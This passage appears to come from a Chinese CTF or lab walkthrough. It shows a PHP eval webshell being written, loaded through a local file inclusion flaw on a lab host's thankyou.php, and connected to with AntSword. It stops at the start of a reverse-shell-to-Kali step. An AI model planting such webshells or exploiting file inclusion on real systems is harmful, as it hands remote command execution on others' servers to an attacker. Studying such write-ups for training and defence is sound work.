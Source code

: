 #### 2.写入webshell

>  
 双击powershell.txt进入编辑模式，写入shell并保存。 


```
hello-world!!!
&lt;?php
@eval($_REQUEST[powershell])
?&gt;

```

<img src="https://img-blog.csdnimg.cn/0abc9fa0626447b5ab388f68ddf1ff67.png" alt="在这里插入图片描述">

#### 3.访问一下新建的shell

>  
 我们采用之前发现的文件包含漏洞包含我们新建的shell就可以访问到shell，我们的shell有输出，在页面下方可以看到我们的输出hello-world!!!。 


```
http://192.168.233.184/thankyou.php?file=/tmp/powershell.php

```

<img src="https://img-blog.csdnimg.cn/ada8216c1edc4340afd9d280b09c4dba.png" alt="在这里插入图片描述">

#### 4.蚁剑连接新的webshell

>  
 蚁剑重新连接webshell，右键添加数据，填入url以及密码，url就是我们新建的shell地址。 


```
http://192.168.233.184/thankyou.php?file=/tmp/powershell.php
powershell

```

<img src="https://img-blog.csdnimg.cn/1620c7b29b59422f9fc7c7bae6e6b706.png" alt="在这里插入图片描述">

>  
 连接成功右键进入虚拟终端 


<img src="https://img-blog.csdnimg.cn/aa46d6ce7f874783b95abc6e7659db3a.png" alt="在这里插入图片描述">

### 10、反弹shell到kali

>  
 蚁剑终端不如kali终端，我们反弹shell到kali 


#### 1.kali上监听
